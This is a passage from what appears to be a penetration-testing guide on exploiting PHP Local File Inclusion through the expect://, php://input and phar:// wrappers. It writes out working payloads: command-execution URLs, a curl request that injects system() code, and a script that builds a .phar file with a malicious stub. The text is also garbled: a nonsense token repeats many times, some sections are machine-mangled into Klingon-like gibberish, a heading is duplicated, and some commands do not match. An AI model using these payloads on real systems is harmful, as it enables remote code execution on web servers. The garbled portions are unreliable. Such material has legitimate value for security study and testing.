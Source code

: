 **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'eS** **'
```
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```
### input://

QaD jImejnISmoHmeH POST parameters vItlhutlh.
```bash
curl -XPOST "http://example.com/index.php?page=php://input" --data "<?php system('id'); ?>"
```
### phar://

A `.phar` file can be utilized to execute PHP code when a web application leverages functions such as `include` for file loading. The PHP code snippet provided below demonstrates the creation of a `.phar` file:

### phar://

`.phar` file vItlhutlhlaHbe'chugh web application 'e' vItlhutlhlaHbe'chugh `include` vItlhutlhlaHbe'chugh file loading vaj 'e' vItlhutlhlaHbe'chugh PHP code 'e' vItlhutlhlaHbe'chugh. 'e' vItlhutlhlaHbe'chugh `.phar` file creation vaj 'e' vItlhutlhlaHbe'chugh PHP code snippet vItlhutlhlaHbe'chugh:
```php
<?php
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); system("ls"); ?>');
$phar->stopBuffering();
```
To compile the `.phar` file, the following command should be executed:

```
phar jcvf <output_file>.phar <input_file>
```

This command will create a compressed `.phar` file from the specified `<input_file>`, and save it as `<output_file>.phar`.
```bash
php --define phar.readonly=0 create_path.php
```
Upon execution, a file named `test.phar` will be created, which could potentially be leveraged to exploit Local File Inclusion (LFI) vulnerabilities.

In cases where the LFI only performs file reading without executing the PHP code within, through functions such as `file_get_contents()`, `fopen()`, `file()`, `file_exists()`, `md5_file()`, `filemtime()`, or `filesize()`, exploitation of a deserialization vulnerability could be attempted. This vulnerability is associated with the reading of files using the `phar` protocol.

For a detailed understanding of exploiting deserialization vulnerabilities in the context of `.phar` files, refer to the document linked below:
